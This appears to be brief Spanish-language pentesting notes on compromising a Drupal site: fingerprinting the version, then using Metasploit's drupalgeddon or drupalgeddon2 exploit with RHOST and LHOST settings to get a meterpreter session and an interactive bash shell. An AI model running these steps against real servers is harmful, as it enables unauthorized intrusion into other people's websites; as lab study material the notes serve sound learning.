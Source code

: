 Drupal revisar si con el nmap conseguimos la version de drupal

en la pantalla de inicio viendo el codigo fuente podemoss encontrar la version 

atacamos con metasploit msfconsole



search drupal {version}

usaremos el exploit drupalgeddon o drupalgeddon2
show options
RHOST
PORT
LHOST
en RHOST ponemos toda la ruta donde esta el drupal
RUN

meterpreter > shell

bash -i

